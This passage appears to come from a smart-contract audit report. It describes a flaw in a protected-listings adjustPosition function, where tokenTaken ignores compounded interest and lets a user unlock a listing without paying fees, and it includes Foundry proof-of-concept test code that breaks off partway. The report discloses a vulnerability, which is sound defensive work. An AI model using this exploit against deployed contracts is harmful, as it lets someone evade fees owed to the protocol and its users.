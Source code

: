 ```solidity
            if (debt + int(absAmount) >= int(MAX_PROTECTED_TOKEN_AMOUNT)) revert IncorrectFunctionUse();

            // Take tokens from the caller
            collectionToken.transferFrom(
                msg.sender,
                address(this),
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
399:        _protectedListings[_collection][_tokenId].tokenTaken -= uint96(absAmount);
        }
        // Otherwise, the user is increasing their debt to take more token
        else {
            // Ensure that the user is not claiming more than the remaining collateral
            if (_amount > debt) revert InsufficientCollateral();

            // Release the token to the caller
            collectionToken.transfer(
                msg.sender,
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
413:        _protectedListings[_collection][_tokenId].tokenTaken += uint96(absAmount);
        }

        emit ListingDebtAdjusted(_collection, _tokenId, _amount);
    }
```
As can be seen in `L399` and `L413`, `_protectedListings[_collection][_tokenId].tokenTaken` is updated without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_adjustPositionError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock protected listing for tokenId = 0
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402055890410801920);
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 0.4 ether);
        protectedListings.adjustPosition(address(erc721a), 0, -0.4 ether);
```